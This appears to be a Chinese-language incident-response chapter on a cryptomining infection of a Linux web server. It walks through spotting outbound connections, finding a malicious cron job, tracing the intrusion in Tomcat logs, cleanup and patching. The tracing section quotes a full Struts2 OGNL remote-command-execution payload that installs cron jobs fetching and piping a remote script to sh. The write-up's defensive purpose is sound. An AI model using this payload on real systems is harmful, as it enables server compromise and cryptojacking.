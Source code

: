 ## 第3篇：挖矿病毒

### 0x00 前言

​	随着虚拟货币的疯狂炒作，利用挖矿脚本来实现流量变现，使得挖矿病毒成为不法分子利用最为频繁的攻击方式。新的挖矿攻击展现出了类似蠕虫的行为，并结合了高级攻击技术，以增加对目标服务器感染的成功率，通过利用永恒之蓝（EternalBlue）、web攻击多种漏洞（如Tomcat弱口令攻击、Weblogic WLS组件漏洞、Jboss反序列化漏洞、Struts2远程命令执行等），导致大量服务器被感染挖矿程序的现象 。

### 0x01 应急场景

​	某天，安全管理员在登录安全设备巡检时，发现某台网站服务器持续向境外IP发起连接，下载病毒源：

![](.\image\linux-12-1.png)

###0x02 事件分析

#### A、排查过程	

登录服务器，查看系统进程状态，发现不规则命名的异常进程、异常下载进程 :

![](.\image\linux-12-2.png)

![](.\image\linux-12-3.png)

下载logo.jpg，包含脚本内容如下：

![](.\image\linux-12-4.png)	

到这里，我们可以发现攻击者下载logo.jpg并执行了里面了shell脚本，那这个脚本是如何启动的呢？

通过排查系统开机启动项、定时任务、服务等，在定时任务里面，发现了恶意脚本，每隔一段时间发起请求下载病毒源，并执行 。

![](.\image\linux-12-5.png)

#### B、溯源分析

​	在Tomcat log日志中，我们找到这样一条记录：

![](.\image\linux-12-6.png)

对日志中攻击源码进行摘录如下： 

`{(#_='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='echo "*/20 * * * * wget -O - -q http://5.188.87.11/icons/logo.jpg|sh\n*/19 * * * * curl http://5.188.87.11/icons/logo.jpg|sh" | crontab -;wget -O - -q http://5.188.87.11/icons/logo.jpg|sh').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())} `

可以发现攻击代码中的操作与定时任务中异常脚本一致，据此推断黑客通过Struct 远程命令执行漏洞向服务器定时任务中写入恶意脚本并执行。

#### C、清除病毒

1、删除定时任务:

![](.\image\linux-12-7.png)

2、终止异常进程:

![](.\image\linux-12-8.png)

#### D、漏洞修复

​	升级struts到最新版本 

### 0x03 防范措施

​	针对服务器被感染挖矿程序的现象，总结了几种预防措施：

```
1、安装安全软件并升级病毒库，定期全盘扫描，保持实时防护
2、及时更新 Windows安全补丁，开启防火墙临时关闭端口
3、及时更新web漏洞补丁，升级web组件
```



​								





